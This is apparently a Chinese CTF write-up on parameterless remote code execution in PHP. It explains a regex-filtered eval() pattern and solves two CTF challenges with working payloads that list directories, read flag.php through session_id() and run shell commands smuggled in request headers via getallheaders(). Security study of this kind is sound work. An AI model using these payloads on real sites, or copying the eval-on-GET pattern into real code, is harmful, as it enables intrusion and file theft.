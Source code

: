 ```yaml
---
title: "无参数RCE"
subtitle: ""

description: ""
date: 2024-03-07T18:13:51+08:00
draft: false

tags: ["RCE"]
categories: ["Bypass"]

---
```


一个很有趣的RCE姿势

## 核心代码

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
```

关键点在于`('/[^\W]+((?R)?/`这个正则表达式，在该表达式下，每个函数内的参数都会被匹配

## 相关函数

### 基本操作

- `scandir()`：返回当前目录中所有的文件和目录，结果是一个数组

- `current()`与`pos()`：返回当前数组中的值（默认第一个）

- `localeconv()`：返回本地数字及货币信息的数组（该数组的第一项是`.`，可以与`scandir`配合使用）

- `getallheaders()`：获取所有请求头信息，并返回键值对

- `strrev()`：返回反转后的字符串

- `eval()`、`assert()`、`system`：命令执行

- `highlight_file()`、`show_source()`、`read_file()`、`readgzfile`：读取文件内容

- `getenv()`：获取环境变量（php7.1版本以上）

- `get_defined_vars()`：返回由已定义变量所组成的多维数组

### 数组操作

- `end()`：内部指针指向数组中最后一个元素并输出

- `next()`：指向下一个元素并输出

- `prev()`：指向上一个元素并输出

- `reset()`：指向数组中第一个元素并输出

- `each()`：返回当前元素的键名和键值，并将内部指针向前移动

- `array_rand()`：随机返回一个键名

- `array_flip()`：交换数组中的键与值，返回交换后的数组

- `array_reverse()`：以相反的顺序返回数组内容

- `array_shift()`：删除数组中的第一个元素并返回被删除的值

- `array_pop()`：删除数组中的最后一个元素并返回被删除的值

- `implode()`：用于将数组转化为字符串，让`echo`或`printf`得以输出结果

### 目录操作

- `getcwd()`：获取当前工作目录

- `chdir()`：改变当前的目录

- `dirname()`：对路径作操作，返回去掉文件名后的目录名（如`/test/index.php`返回`/test`）

举个栗子：`scandir('.')`用于返回当前目录，在无法传参数的情况下，可以用`localeconv()`构造一个`.`，再用`current()`返回`.`给`scandir()`即可

> ?payload=var_dump(scandir(current(localeconv())));

## 相关例题

### getallheaders()

- 题目来源：2023NewStarCTF-R!!C!!E!!

源码如下

```php
<?php  
highlight_file(__FILE__);  
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {  
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){  
        eval($_GET['star']);  
    }  
}
```

这题用到了`getallheaders()函数`，用于获取当前所有的请求头信息，但只允许在Apache环境下使用，在php7以上的版本可以用`apache_request_headers()`代替

本题思路是在请求头中添加我们要执行的系统命令，用`getallheaders()`获取所有的请求头信息，接着用`array_flip()`与`array_rand()`来调换与获取键值对，最后用`system()`来执行命令

payload

```
# parmas
?star=system(array_rand(array_flip(getallheaders())));

# headers
flag: cat /f*
```

> 由于`array_rand()`是随机获取的，因此可以删除部分请求头来提高成功率

### session_id()

- 题目来源：BUUCTF-禁止套娃

源码如下

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

并没有过滤`scandir()`，先看一下目录下的文件

exp

```
?exp=var_dump(scandir(current(localeconv())));
```

放包后得到结果，可以看到flag.php位于数组第四个位置

![](/img/无参数RCE/2024-03-07-18-50-31-image.png)

有三种解法，其一是利用`array_reverse()`与`next()`来对数组进行操作，再用`show_source()`之类的函数进行读取；其二是用`getallheaders()`；其三便是`session_id()`

前面也讲到，倘若中间件不是Apache，`getallheaders()`便无法使用，这里介绍下`session_id()`的使用

将恶意代码写到cookie的PHPSESSID中，再利用`session_id()`读取，之后便可以用其他函数来实现命令执行。但是`session_id()`需要开启session才能使用，因此在此之前还需要用`session_start()`来开启session服务

payload

```
# parmas
?exp=show_source(session_id(session_start()));

# headers
Cookie: PHPSESSID=flag.php
```